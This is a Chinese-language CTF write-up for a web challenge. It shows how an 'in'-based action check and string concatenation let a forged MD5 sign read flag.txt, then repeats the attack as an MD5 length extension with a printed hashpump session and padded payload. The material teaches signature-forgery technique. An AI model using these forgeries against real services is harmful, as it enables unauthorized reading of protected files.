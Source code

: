 (61行`action`的值是固定为`scan`的,所以我们访问`/geneSign`无法获得`action=read`时的`sign`值)

注意到代码中对执行`scan`还是`read`进行检测时,用的是 `if xx in action` 不是严格地去查询`action`的值是否等于某一项

那么如果访问`/De1ta`时将`action`设置为: `scanread` ,只要通过了`sign`的检测,就可以执行`read`

利用`getsign`中字符串拼接的特性,可以获得这个`sign`

```
/geneSign?param=flag.txtread
c43782860279626e3bdd009573349473
=md5(secert_key +"flag.txtread"+"scan")=md5(secert_key +"flag.txtreadscan")=md5(secert_key +"flag.txt"+"readscan")
```

将这个值添加进去就能够读取到`flag`了

![image-20221023104440712](/images/buuctf-web2/image-20221023104440712.png)

这里还可以通过`hashpump`工具进行哈希长度扩展攻击:

>如果一个应用程序是这样操作的：
>
>1. 准备了一个密文和一些数据构造成一个字符串，并且使用了MD5之类的哈希函数生成了一个哈希值（也就是所谓的signature/签名）
>2. 让攻击者可以提交数据以及哈希值，虽然攻击者不知道密文
>3. 服务器把提交的数据跟密文构造成字符串，并经过哈希后判断是否等同于提交上来的哈希值
>
>这个时候，该应用程序就易受长度扩展攻击，攻击者可以构造出`{secret || data || attacker_controlled_data}`的哈希值*。*

例如本题中的密文就是`secret_key`

目前掌握的的是`md5(secret_key+ "flag.txtscan")`的值,那么我们可以通过工具获得`md5(secret_key+ flag.txtscan+read)`的值

这样如果再从`action`中传 `scanread` 就可以成功执行`read`功能了

```
kali㉿kali)-[~/Desktop/HashPump]
└─$ hashpump   
Input Signature: d4bd0b631614327be0367efa305057e5
Input Data: flag.txtscan  (本来追加在secret_key后面的已知数据)
Input Key Length: 16  (secret_key的长度)
Input Data to Add: read  (为了计算新的sign值,我们希望添加的新数据)
aeccfcf28d2da89a3c8581a6c90d1842  (计算结果,新的sign值)
flag.txtscan\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\x00\x00\x00\x00read  (新的secret_key后面的已知数据)

```
